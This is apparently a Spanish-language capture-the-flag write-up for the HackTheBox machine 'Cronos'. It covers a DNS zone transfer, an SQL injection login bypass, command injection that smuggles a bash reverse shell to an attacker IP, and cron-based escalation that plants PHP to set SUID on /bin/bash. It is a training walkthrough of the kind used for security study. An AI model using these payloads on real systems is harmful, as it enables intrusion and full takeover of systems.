







HackTheBox
Medium
Linux
DNS
SQLi
RCE
Cron
Cronos
Zone transfer DNS revela subdominio admin; SQLi para login bypass; command injection para RCE; escalada via cron.
cat4clysm
Herramientas utilizadas
nmap
dig
nslookup
netcat
Scanning
root@kali:~$
sudo nmap -sC -sV -sS -p22,53,80 -Pn -n 10.10.10.13 -oN targeted
DNS - Zone Transfer
root@kali:~$
nslookup
>server 10.10.10.13
>10.10.10.13
# 13.10.10.10.in-addr.arpa name = ns1.cronos.htb
root@kali:~$
dig @10.10.10.13 cronos.htb any
Agregamos cronos.htb y admin.cronos.htb al /etc/hosts.
SQL Injection - Login Bypass

'or 1=1 -- -
RCE - Command Injection
La aplicacion de traceroute es vulnerable a command injection:
root@kali:~$
# En la maquina atacante
nc -lvp 4444
# En la web
127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'
cat /home/noulis/user.txtEscalada de Privilegios - Cron
root@kali:~$
cat /etc/cron*
root@kali:~$
mv /var/www/laravel/artisan /var/www/laravel/artisan.bkup
echo "<?php shell_exec('chmod +s /bin/bash') ?>" > /var/www/laravel/artisan
bash -p
cat /root/root.txtLecciones aprendidas
- La enumeracion DNS con zone transfer puede revelar subdominios administrativos ocultos.
- Los formularios de login sin parametrizar son vulnerables a SQL injection basico.
- Los scripts cron en directorios con permisos de escritura son vectores clasicos de escalada.